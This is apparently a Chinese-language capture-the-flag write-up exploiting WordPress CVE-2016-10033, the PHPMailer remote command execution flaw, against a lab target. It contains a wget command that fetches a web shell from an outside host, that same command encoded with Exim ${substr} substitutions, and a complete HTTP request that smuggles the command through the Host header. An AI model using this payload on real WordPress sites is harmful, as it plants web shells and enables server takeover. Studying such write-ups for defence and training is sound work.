 # WordPress远程命令执行（CVE-2016-10033） by [anonymity3712](https://github.com/anonymity3712)

## 漏洞描述

WordPress 是一种使用 PHP 语言开发的博客平台，用户可以在支持 PHP 和 MySQL 数据库的服务器上架设属于自己的网站。也可以把 WordPress 当作一个内容管理系统（CMS）来使用。WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。

## 影响版本

WordPress <= 4.6

## writeup

启动靶场

![](./20200513100231.png)

访问靶机地址http://ctf.mzxh.xyz:65079/

![](./20200513105416.png)

在找回密码处抓包 http://ctf.mzxh.xyz:65079/wp-login.php?action=lostpassword

构造payload

```
/usr/bin/wget --output-document /var/www/html/shell.php www.mzxh.xyz/tools/shell.php
```

```
> `空格` 转化为 ${substr{10}{1}{$tod_log}}

> `/` 转化为 ${substr{0}{1}{$spool_directory}}
```

转换过来就是

```
{substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}shell.php${substr{10}{1}{$tod_log}}www.mzxh.xyz${substr{0}{1}{$spool_directory}}tools${substr{0}{1}{$spool_directory}}shell.php
```

构造 poc,把上面生成的payload改进poc里，点击GO发送请求包到服务器。

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{$payload}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

即下图所示

![](./20200513111049.png)

访问shell地址http://ctf.mzxh.xyz:65079/shell.php

![](./20200513111132.png)

获取shell

![](./20200513111209.png)
